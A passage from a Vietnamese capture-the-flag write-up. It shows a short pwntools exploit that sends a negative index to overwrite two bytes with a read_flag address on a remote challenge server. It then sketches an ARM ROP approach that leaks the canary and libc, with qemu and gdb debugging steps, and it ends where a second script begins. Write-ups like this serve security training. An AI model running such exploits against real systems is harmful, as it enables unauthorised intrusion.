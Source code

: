 ```
![image](https://hackmd.io/_uploads/Sy3iRCYWJl.png)


vậy nhập -4 và ghi 2 byte của read_flag

script 

```
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./great_old_talisman',checksec=False)
#p = process()
p = remote('94.237.63.224',47332)
p.sendline(b'-4')
p.send(p32(0x135a))

p.interactive()
```

------

7 . Arms roped (ROP arm)
-------

1 challenge về rop arm như cái tên , thường thì những bài này cần hiểu các lệnh và sẽ khó setup :>>

nhìn vào thì thấy có vẻ scanf nhập không giới hạn và có 1 vòng lặp while , phía bên dưới thì thấy nó puts -> ta có thể leak được gì đó
![image](https://hackmd.io/_uploads/HkecJbqbke.png)


- checksec thì thấy gần full giáp 
![image](https://hackmd.io/_uploads/HJJbxW5bkl.png)

- vì vậy nên ta sẽ phải leak canary trước nếu muốn BOF , tiếp theo kh có hàm win nên hướng đi sẽ là leak libc và vì ta dc leak kh giới hạn 

- 1 vấn đề là dùng pwninit xong thì nó bị lỗi gì đó , nên ta sẽ phải build docker và cp thằng  /usr/arm-linux-gnueabihf/lib về local và kiếm ld để path thêm vô 


debug bằng lệnh này , hoặc bỏ -g 1234 chắc cũng dc
```qemu-arm -L /usr/arm-linux-gnueabihf -g 1234 ./hello32-static ```
- mở thêm 1 tab và dùng gdb-multiarch

lần lượt sẽ là như sau 
```
gdb-multiarch
set architecture arm
target remote :1234
b*string_storer+172
b*string_storer+240
```

còn lại thì phải debug để xem và học thêm coi arm nó gọi 1 hàm bằng tham số nào để thực thi system :D

script 
```
#!/usr/bin/env python3
